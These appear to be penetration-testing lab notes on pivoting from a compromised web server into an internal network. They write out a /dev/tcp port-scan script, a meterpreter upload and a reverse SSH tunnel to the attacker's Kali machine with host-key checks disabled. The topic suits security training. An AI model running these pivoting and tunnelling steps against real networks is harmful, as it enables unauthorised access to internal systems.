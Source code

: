 ```
define( 'WP_HTTP_BLOCK_EXTERNAL', true );
```

# Creating a stable pivot point
when then try to login to the internal network, e.g. the database server `10.5.5.11`
since we do not have root access to create ssh server, we should use reverse ssh tunneling

first we need to know which port is running the database server 


create a quick portscan script
```
#!/bin/bash
host=10.5.5.11
for port in {1..65535}; do
    timeout .1 bash -c "echo >/dev/tcp/$host/$port" &&
    echo "port $port is open"
done
echo "Done"
```

upload the script use meterpreter:
```
upload ~/script/portscan.sh /tmp/portscan.sh 

chmod +x portscan.sh
./portscan.sh
port 3306 is open
```

default mariadb port is also `3306`
```
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 kali@192.168.119.165
```

but it will prompt us for 1. accept hostkey, 2. password
```
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@192.168.119.165
```
`UserKnownHostsFile` do not save host keys
`StrictHostKeyChecking` do not prompt 

to avoid the prompt for password, we generate ssh key on target machine 

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBK2RDq8McGN6Av2gpVYvS6nwi6r10XFYVQsQAxQLDwaprw4pJObKgcpgXkgj48cSLCJ8473Jv3y8FUpqgN8sX3EJseG43ni45kP/i3yQJ7sTmbG6/ZsIdxZM4dC9oK9JbHTnko/8d24lJMxAGwvskjFpCRjcBu1OVUmRziWFTG5v6zVaebvFt2DlP3XaDPZysZg4+Xh5iS+/T73aarEJbLz5EEz7Nnq06bHvMOn/hQqqiIZ6jgHVzSMu7eolt1hh7+CsCjaNctURir4JRCAMjEWmpQ+xy39b6PmqDLbJfKon68Xv685fB6d+O2vJr/lO8KaKEnhEUwRw5GwN45hRT www-data@ajla
```

in kali's `authorized_keys`
```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABAQDBK2RDq8McGN6Av2gpVYvS6nwi6r10XFYVQsQAxQLDwaprw4pJObKgcpgXkgj48cSLCJ8473Jv3y8FUpqgN8sX3EJseG43ni45kP/i3yQJ7sTmbG6/ZsIdxZM4dC9oK9JbHTnko/8d24lJMxAGwvskjFpCRjcBu1OVUmRziWFTG5v6zVaebvFt2DlP3XaDPZysZg4+Xh5iS+/T73aarEJbLz5EEz7Nnq06bHvMOn/hQqqiIZ6jgHVzSMu7eolt1hh7+CsCjaNctURir4JRCAMjEWmpQ+xy39b6PmqDLbJfKon68Xv685fB6d+O2vJr/lO8KaKEnhEUwRw5GwN45hRT www-data@ajla
```
